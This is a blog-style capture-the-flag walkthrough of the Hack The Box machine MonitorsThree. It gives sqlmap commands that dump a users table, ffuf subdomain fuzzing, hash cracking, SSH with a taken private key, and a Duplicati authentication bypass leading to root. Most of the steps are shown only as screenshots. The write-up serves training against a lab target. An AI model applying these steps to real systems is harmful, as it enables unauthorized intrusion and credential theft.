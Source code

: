 ```yaml
---
layout: post
title: 'MonitorsThree Walkthrough: Conquering Hack The Box Season 6 "MonitorsThree htb"'
date: 16-09-2024
categories: [HackTheBox]
tag: [season 6,machines]
image:
  path: '/Images/moteiresthree/1.png'
---
```

## Introduction 

__MonitorsThree on HackTheBox is a challenging machine that truly tests your skills. For beginners, tackling MonitorsThree can be both daunting and rewarding. This blog will guide you through the essential steps to conquer this machine, using techniques from hacking and penetration testing. Get ready to dive into the world of CTF challenges and sharpen your hacking abilities. Let’s explore the intricacies of MonitorsThree and uncover strategies for successfully hacking it. Stay tuned for expert tips and tricks to capture that elusive user flag. Good luck on your hacking journey!__ 

## Reconnaissance

Network Scanning: as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

![](/Images/moteiresthree/nmap.png)

## Exploration the website

```
Visiting the IP address in a browser redirects us to a website named “monitorsthree.htb”, presenting a form and various navigation options.
```
![](/Images/moteiresthree/2.png)

![](/Images/moteiresthree/3.png)

![](/Images/moteiresthree/4.png)

![](/Images/moteiresthree/5.png)

i will try SQLmap

> sqlmap -r sql.txt --dbs   || then y  .. n 

![](/Images/moteiresthree/databases.png)

> sqlmap -r sql.txt -D monitorsthree_db --tables

![](/Images/moteiresthree/tables.png)

>  sqlmap -r sql.txt -D monitorsthree_db -T users --dump

![](/Images/moteiresthree/passwords.png)

- Now crack the md5 hash 

![](/Images/moteiresthree/cracks.png)

- After i login i didn't find any thing credentials.. 

    so i try to find any sub domains ?

> ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.30 -H "Host: FUZZ.monitorsthree.htb" -mc 200,302 -fs 13556

![](/Images/moteiresthree/cactii.png)

## exploit

- make some search about "cacti". i will use "searchsploit"

![](/Images/moteiresthree/searchsploit.png)

![](/Images/moteiresthree/metas.png)

![](/Images/moteiresthree/1111metas.png)


-now we will search about any important credentials or any good data .

![](/Images/moteiresthree/config11.png)

![](/Images/moteiresthree/download%20config.png)

![](/Images/moteiresthree/config-db.png)

* here try to connect to maraiadb 

![](/Images/moteiresthree/maria1.png)

* i found hash for marcous user 

![](/Images/moteiresthree/maria%202.png)

![](/Images/moteiresthree/john.png)

* i try to su marcus and take the id_rsa form .ssh folder and connect to ssh connection.

> ssh -i id_rsa marcus@10.10.11.30

## Privilege Escalation

- notice the open port 8200 in localhost i do port forwarding  then i found a website.

![](/Images/moteiresthree/open%20ports.png)


![](/Images/moteiresthree/port_fowrwarad.png)

![](/Images/moteiresthree/duplicate.png)

* try to login with credentials i have and i can't so i search about [credentials].
- [Duplicati: Bypassing Login Authentication With Server-passphrase](https://medium.com/@STarXT/duplicati-bypassing-login-authentication-with-server-passphrase-024d6991e9ee)

and i follow the exploit and it work for me .

* download "SQLLitebrowser" and download from the machine this file "Duplicati-server.sqlite".

![](/Images/moteiresthree/sqlite.png)

![](/Images/moteiresthree/e1.png)

![](/Images/moteiresthree/e2.png)

![](/Images/moteiresthree/e3.png)

// disable automatically run backup 

![](/Images/moteiresthree/e5.png)

![](/Images/moteiresthree/e6.png)

![](/Images/moteiresthree/e7.png)

![](/Images/moteiresthree/e8.png)

```
marcus@monitorsthree:~$ ls -al

drwxr-xr-x 2 root   root   4096 Aug 28 00:53 root.txt
-rw-r----- 1 root   marcus   33 Aug 27 23:35 user.txt

marcus@monitorsthree:~$ cd root.txt
marcus@monitorsthree:~/root.txt$ ls
root.txt
```